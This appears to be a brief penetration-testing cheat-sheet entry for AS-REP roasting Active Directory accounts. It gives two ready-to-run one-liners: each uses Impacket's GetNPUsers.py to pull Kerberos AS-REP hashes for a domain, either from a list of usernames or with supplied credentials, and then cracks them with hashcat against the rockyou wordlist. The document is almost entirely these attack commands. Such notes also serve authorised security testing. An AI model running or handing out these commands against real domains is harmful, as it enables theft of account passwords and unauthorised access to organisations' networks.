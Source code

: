 # getnpusers
#plateform/linux #target/remote #cat/ATTACK

## ASREPRoast with usersfile
```
GetNPUsers.py -usersfile <usersfile|users.txt> -outputfile hashes.asreproast <domain>/; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

## ASREPRoast with authentication
```
GetNPUsers.py -request -outputfile hashes.asreproast <domain>/'<user>':'<passwd>'; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```
